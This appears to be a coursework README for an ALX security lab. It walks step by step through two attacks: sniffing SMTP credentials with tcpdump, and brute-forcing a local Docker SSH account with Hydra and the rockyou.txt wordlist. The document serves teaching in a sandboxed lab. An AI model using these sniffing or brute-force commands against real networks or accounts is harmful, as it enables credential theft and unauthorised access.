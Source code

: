 # Curriculum Project: Attack is the Best Defense

## Overview

This project focuses on enhancing understanding and skills in various aspects of security and DevOps. It spans topics such as network sniffing, ARP spoofing, Docker, scripting, and hacking techniques like dictionary attacks.

### Key Details

- **Average:** 145.99%
- **Weight:** 1
- **Project Duration:** March 18, 2024, 4:00 AM - April 1, 2024, 5:00 AM
- **Checker Release:** March 21, 2024, 4:00 PM
- **Auto Review:** Will be launched at the deadline

## Background Context

This project is entirely optional but highly rewarding. It offers a chance to boost your project grade significantly. While not mandatory, engaging in this project will contribute positively to your average score. However, abstaining from it won’t affect your grade negatively. Enjoy the learning experience!

## Goal

The primary objective of this project is to discover login credentials, including usernames and passwords, through various security testing techniques.

## Resources

### Read or watch:

- Network sniffing
- ARP spoofing
- Connect to SendGrid’s SMTP relay using telnet
- What is Docker and why is it popular?
- Dictionary attack

### `man` or `help`:

- tcpdump
- hydra
- telnet
- docker

## Tasks

### 0. Sniffing

**Simplified Description:**

Sniffing involves capturing and analyzing network traffic to intercept sensitive information, such as usernames and passwords.

**Step-by-Step Process:**

1. Identify available network interfaces:

```   
tcpdump --list-interfaces
```

2. Start capturing traffic on port 587 using any available interface:

```
tcpdump --interface any -nn port 587
```

3. Simultaneously run the script `user_authenticating_into_server`, and capture the traffic in a file named `packets.pcap`:

```
tcpdump --interface any -nn port 587 -w packets.pcap
./user_authenticating_into_server
```

4. View the captured packets:

```
cat packets.pcap
```

5. Analyze the captured packets in detail:

```
tcpdump -nn -A -r packets.pcap
```

### 1. Hydra and rockyou.txt

**Simplified Description:**

Hydra is a tool used for brute-forcing passwords, while rockyou.txt is a popular password dictionary. This task involves utilizing Hydra along with the rockyou.txt dictionary to crack passwords.

**Step-by-Step Process:**

1. Install Docker to set up a virtual environment:

```
snap install docker
```

2. Run a Docker container with SSH access on port 2222:

```
docker run -p 2222:22 -d -ti sylvainkalache/264-1
```

3. Download the rockyou.txt dictionary and preview its contents:

```
wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
cat rockyou.txt | head -n 10
```

4. Use Hydra to perform a brute-force attack on the SSH account (`sylvain`) with the provided dictionary (`rockyou.txt`), targeting the Docker container's SSH service:

```
hydra -l sylvain -P ./rockyou.txt ssh://127.0.0.1 -s 2222 -V -F
```

## Repository

- **GitHub Repository:** [alx-system_engineering-devops](https://github.com/abdelhafid-mahmoudi-env/alx-system_engineering-devops)
- **Directory:** attack_is_the_best_defense
- **Files:** 
- 0-sniffing
- 1-dictionary_attack

## Copyright

Copyright © 2024 ALX, All rights reserved.
